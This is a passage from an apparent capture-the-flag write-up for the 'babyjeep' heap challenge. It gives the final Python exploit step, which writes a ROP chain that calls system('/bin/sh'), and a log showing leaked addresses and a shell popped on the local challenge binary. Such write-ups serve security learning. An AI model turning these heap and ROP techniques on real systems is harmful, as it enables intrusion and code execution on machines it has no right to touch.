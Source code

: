 ```py
malloc(0,0x60,p64(ret))
malloc(5,0x60,"A")
malloc(2,0x60,"B")
malloc(3,0x60,b"A"*19+p64(pop_rdi)+p64(binsh)+p64(system))
```

Now, we will get the shell:-

```r
1 [14:58:13] vagrant@oracle(oracle) babyjeep> python3 xpl.py 
[+] Starting local process './main': pid 3162
[*] '/media/sf_Pwning/CTFs/BlueHens/pwn/babyjeep/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] HEAP:  0x563be9d8a050
[*] LIBC:  0x7f93bf897000
[*] ret :  0x7ffc3adc4215
[*] Switching to interactive mode
$ whoami
vagrant
$ ls -la
total 20176
drwxrwxr-x 1 vagrant vagrant     4096 Mar 26 14:58 .
drwxrwxr-x 1 vagrant vagrant     4096 Mar 21 16:00 ..
-rw------- 1 vagrant vagrant  4472832 Mar 26 14:58 core
-rw-r--r-- 1 vagrant vagrant 16603959 Mar 25 16:51 gadgets.lst
-rwxrwxr-x 1 vagrant vagrant  1868984 Mar 20 22:50 libc.so.6
-rwxrwxr-x 1 vagrant vagrant    17344 Mar 20 22:51 main
-rw-rw-r-- 1 vagrant vagrant     2502 Mar 26 14:58 xpl.py
$ 
[*] Interrupted
```